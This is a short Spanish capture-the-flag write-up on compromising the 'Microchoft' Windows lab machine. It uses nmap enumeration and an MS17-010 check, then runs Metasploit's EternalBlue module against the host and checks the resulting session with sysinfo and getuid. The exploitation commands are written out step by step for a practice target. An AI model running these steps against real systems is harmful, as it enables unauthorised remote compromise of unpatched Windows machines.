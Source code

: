 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TheHackerLabs
  - Easy
  - Windows
  - SMB
  - EternalBlue
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
- [[#Explotación|Explotación]]
	- [[#Explotación#MS17-010 SMB (EternalBlue)|MS17-010 SMB (EternalBlue)]]

---
# Resolviendo la máquina Microchoft

>En esta publicación, comparto cómo resolví la máquina **Microchoft** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/55).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 192.168.1.137`

![[Pasted image 20250721101807.png]]

*TTL=128* -> **Windows**
### Nmap
`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.137 -oG allPorts`

![[Pasted image 20250721101836.png]]

`nmap -p135,139,445,49152,49153,49154,49155,49156,49157 -sCV 192.168.1.137 -oN targeted`

![[Pasted image 20250721101914.png]]

`nmap -p445 --script smb-vuln-ms17-010 192.168.1.137`

![[Pasted image 20250721102119.png]]

---
## Explotación
### MS17-010 SMB (EternalBlue)

Se utiliza el exploit (`exploit/windows/smb/ms17_010_eternalblue`) para la vulnerabilidad **MS17-010 (EternalBlue)** en el servicio **SMB**.

```
search exploit/windows/smb/ms17_010_eternalblue
use 0 | use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS 192.168.1.137
exploit
```

![[Pasted image 20250721102904.png]]

`sysinfo`

![[Pasted image 20250721103337.png]]

`getuid`

![[Pasted image 20250721103401.png]]

---